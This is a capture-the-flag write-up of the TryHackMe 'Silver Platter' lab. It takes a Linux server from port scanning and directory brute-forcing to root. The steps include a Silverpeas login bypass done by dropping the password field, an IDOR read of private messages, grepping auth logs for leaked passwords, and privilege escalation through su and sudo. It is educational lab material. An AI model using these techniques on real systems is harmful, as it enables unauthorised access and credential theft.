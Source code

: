 ```yaml
---
title: "Silver Platter"
date: 2025-03-15
image: /assets/img/tryhackme/SilverPlatter/SilverPlatter_image.jpg
description: Writeup of the TryHackMe-CTF Silver Platter
categories: [TryHackMe, Easy]
tags: [linux, blv]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Silver Platter</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Can you breach the server?</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/silverplatter">https://tryhackme.com/room/silverplatter</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Silver Platter.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.254.4                                          
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 07:10 EDT
  Nmap scan report for 10.10.254.4
  Host is up (0.042s latency).
  Not shown: 65532 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 18.10 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,8080 10.10.254.4
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-15 07:10 EDT
  Nmap scan report for 10.10.254.4
  Host is up (0.039s latency).

  PORT     STATE SERVICE    VERSION
  22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
  |_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
  80/tcp   open  http       nginx 1.18.0 (Ubuntu)
  |_http-server-header: nginx/1.18.0 (Ubuntu)
  |_http-title: Hack Smarter Security
  8080/tcp open  http-proxy
  |_http-title: Error
  | fingerprint-strings: 
  |   FourOhFourRequest, GetRequest, HTTPOptions: 
  |     HTTP/1.1 404 Not Found
  |     Connection: close
  |     Content-Length: 74
  |     Content-Type: text/html
  |     Date: Sun, 09 Mar 2025 11:10:45 GMT
  |     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
  |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
  |     HTTP/1.1 400 Bad Request
  |     Content-Length: 0
  |_    Connection: close
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver hosted a single-page application for the company "Hack Smarter Security". Directory enumeration didn't reveal anything of interest. 
```bash
$ gobuster dir --url http://10.10.254.4/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.254.4/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 178] [--> http://10.10.254.4/images/]
/assets               (Status: 301) [Size: 178] [--> http://10.10.254.4/assets/]
```

I continued manually analyze the website and found an interesting hint in the contact field:
```text
If you'd like to get in touch with us, please reach out to our project manager on Silverpeas. His username is "scr1ptkiddy".
```

Upon further research, I discoverd that `Silverpeas` is an open-source collaborative intranet. I began searching for this application but didn't find anything on port 80.

## Port 8080 Analysis

I restarted the directory enumeration, but didn't discoverd something useful, including the `Silverpeas` application.
```bash
$ gobuster dir --url http://10.10.254.4:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.254.4:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/website              (Status: 302) [Size: 0] [--> http://10.10.254.4:8080/website/]
/console              (Status: 302) [Size: 0] [--> /noredirect.html]
```

I manually explored different directories in an attempt to discover `Silverpeas` and successfully located it at the following URL:
```text
http://10.10.254.4:8080/silverpeas
```

![Silverpeas login](/assets/img/tryhackme/SilverPlatter/thm_silverplatter_1.jpg)

At the bottom of the login page, I found a potential version number:
```text
 © 2001-2022 Silverpeas - All rights reserved
```

Using this version, I performed research to find any potential vulnerabilities and came across some relevant information in this <a href="https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d">GitHub</a>. I was able to log in by modifying the POST request variables. The login was successful after removing the password field:
```html
Login=scr1ptkiddy&Password=test&DomainId=0
 <- changed to ->
Login=scr1ptkiddy&DomainId=0
```

![Silverpeas](/assets/img/tryhackme/SilverPlatter/thm_silverplatter_2.jpg)

While enumerating the application, I found an unread message:
```text
Tyler just asked if I wanted to play VR but he left you out scr1ptkiddy (what a jerk). Want to join us? We will probably hop on in like an hour or so. 
```

During my initial research, I also found an Insecure Direct Object Reference (IDOR) vulnerability on <a href="https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323">GitHub</a>. Using this, I was able to read all messages which where exchanged on the server. One message in particular was really interesting -- it contained SSH credentials to log in as Tim and retrieve the user flag:

![Interesting Message](/assets/img/tryhackme/SilverPlatter/thm_silverplatter_3.jpg)

```bash
tim@silver-platter:~$ cat user.txt 
  THM{[removed]}
```

## Privilege Escalation tyler

While searching for privilege escalation possibilities, I found credentials in the log files: 
```bash
tim@silver-platter:/$ cat /var/log/auth* | grep -i pass
[...]
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
[...]
```

Since the password was reused for both the Postgresql database and the user account, I was able to switch the user to Tyler:
```bash
tim@silver-platter:/$ su tyler
  Password:
tyler@silver-platter:/$ id
  uid=1000(tyler) gid=1000(tyler) groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

## Privilege Escalation root
I started by running `sudo -l` and got the following output, which allowed me to retrieved the root flag:
```bash
tyler@silver-platter:/$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL

tyler@silver-platter:/$ sudo cat /root/root.txt
	THM{[removed]}
```

solved! :)